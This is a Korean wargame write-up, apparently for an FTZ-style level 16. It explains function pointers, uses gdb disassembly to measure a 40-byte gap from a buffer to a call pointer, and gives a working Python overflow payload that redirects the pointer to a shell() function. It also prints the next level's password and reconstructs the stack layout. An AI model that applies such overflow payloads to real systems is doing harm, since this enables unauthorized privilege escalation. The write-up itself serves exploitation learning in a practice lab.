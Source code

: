 함수를 가리키는 변수. 즉, 함수의 주소를 저장하는 변수다.  
* 표기법: 반환값 자료형 (*함수포인터이름) (매개변수)  

```
void (*fp)();   // 반환값과 매개변수가 없는 함수 포인터 fp 선언

fp = hello;     // hello 함수의 메모리 주소를 함수 포인터 fp에 저장
fp();           // Hello, world!: 함수 포인터로 hello 함수 호출

fp = bonjour;   // bonjour 함수의 메모리 주소를 함수 포인터 fp에 저장
fp();           // bonjour le monde!: 함수 포인터로 bonjour 함수 호출
```  

call 함수 포인터에 printit이 아니라 shell 함수를 넣으면 될 것 같다!!  

1. 먼저 gdb를 이용하여 스택구조를 파악해보자!  
<img width="323" alt="1" src="https://user-images.githubusercontent.com/46364778/89729233-815f8500-da6e-11ea-8015-f43515008692.PNG">  

* ```sub esp, 0x38```: 0x38=56byte를 확보했다.  
* ```mov DWORD PTR [ebp-16], 0x8048500```  
```mov eax, DWORD PTR [ebp-16]```  
```call eax```: 를 보아 ebp-16 위치에는 call 함수 포인터가 있고 0x8048500은 printit 함수의 주소인 것 같다.  

* ```lea eax, [ebp-56]```  
```push eax```  
```call <fgets>``` : 를 보아 char buf[20]에는 56byte가 할당이 되어 있다! 처음 ```sub esp, 0x38```로도 알 수 있었던 사실!  

2. buf에서 call 함수 포인터까지 거리는 40이므로 여기까지만 파악해도 payload를 작성할 수 있다!  
그럼 이제 call 함수 포인터에 shell() 함수의 주소값을 넣어야 하므로, shell() 함수 주소값을 확인해보자!  
gdb의 p 명령어를 이용하면 된다.  
```
(gdb) p shell
$1 = {<text variable, no debug info>} 0x80484d0 <shell>
```  

3. 그럼 이제 페이로드를 작성해 보자!  
```
(python -c 'print "\x90"*40 + "\xd0\x84\x04\x08"'; cat) | ./attackme
```  

4. level 17의 비밀번호는 "king poetic"  

### 외전: 정확한 스택 구조 파악  
일단 대략적인 스택 구조는 아래와 같다.  
참고로 포인터의 크기는 4byte이다. (주소를 저장하는 변수이므로)  

ret [4]|
|:---:|
|sfp [4]|
|crap [4]|
|call [4]|
|buf [20]|

그리고 위의 gdb를 통해 dummy값을 포함하여 알아낸 정보는 아래와 같다.  
buf에서 call까지 거리가 40이고 buf는 20byte이므로 **buf와 call 사이 dummy는 20byte**다!  
call은 sfp로부터 16byte떨어져 있다.  
call은 4byte, crap은 4byte이므로 남은 8byte의 dummy가 있다.
그간의 경험으로 **sfp와 그 다음 변수 사이에는 항상 dummy가 존재**했으므로 8byte의 dummy도 이 부분에 있을 확률이 높다! (확인하고 싶으면 level14, 15에서 이용한 dummy찾기 방법을 활용하자)  

따라서 정확한 스택 구조는 아래와 같다!  
ret [4]|
|:---:|
|sfp [4]|
|dummy[8]|
|crap [4]|
|call [4]|
```